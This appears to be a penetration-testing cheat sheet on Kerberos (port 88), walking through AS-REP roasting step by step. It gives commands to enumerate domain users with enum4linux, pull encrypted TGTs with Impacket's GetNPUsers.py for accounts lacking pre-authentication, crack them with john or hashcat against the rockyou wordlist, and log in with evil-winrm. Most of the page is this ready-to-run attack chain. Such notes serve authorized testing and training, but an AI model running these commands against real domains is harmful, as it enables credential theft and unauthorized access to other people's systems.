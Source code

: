 # Kerberos (Port #88)
Kerberos is a network authentication protocol used to provide secure authentication in client-server applications. It uses tickets to authenticate users, and these tickets are issued by a Kerberos authentication server (AS) after the user logs in. The ticket-granting ticket (TGT) is a special ticket that is issued by the AS after the user successfully authenticates. The TGT is then used by the user to obtain service tickets for specific services.

---
## Enumerate User Information
```
▶ enum4linux {TARGET_IP}
```
A bunch of usernames will be returned but no passwords. If Kerberos pre-authentication is disabled on any of the returned accounts, the impacket script `GetNPUsers.py` can be used to send a dummy request for authentication. The Key Distribution Center (KDC) will then return a TGT that is encrypted with the user’s password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the user’s password.

---
## Obtain Encrypted User Password
```
▶ GetNPUsers.py {TARGET_DOMAIN}/ -usersfile domain_users.txt -outputfile users_password_hashes.txt -dc-ip {TARGET_DOMAIN_CONTROLLER_IP}
```

It is assumed the Impacket script `GetNPUsers.py` requires a username as a parameter and therefore the script is usually ran on all the usernames that were found. However, it turns out that the script can be used to output both the vulnerable usernames and their corresponding encrypted TGTs.
```
▶ GetNPUsers.py {TARGET_DOMAIN}/ -outputfile users_password_hashes.txt -dc-ip {TARGET_DOMAIN_CONTROLLER_IP} -request
```

### Crack Hash to Obtain Clear Text Password
```
▶ john --wordlist=/usr/share/wordlists/rockyou.txt users_password_hashes.txt
```
OR
```
▶ hashcat -m 18200 users_password_hashes.txt rockyou.txt --force
```

---
## Login to Target with Username & Password
```
▶ evil-winrm -i {TARGET_IP} -u {USERNAME} -p {PASSWORD}
```
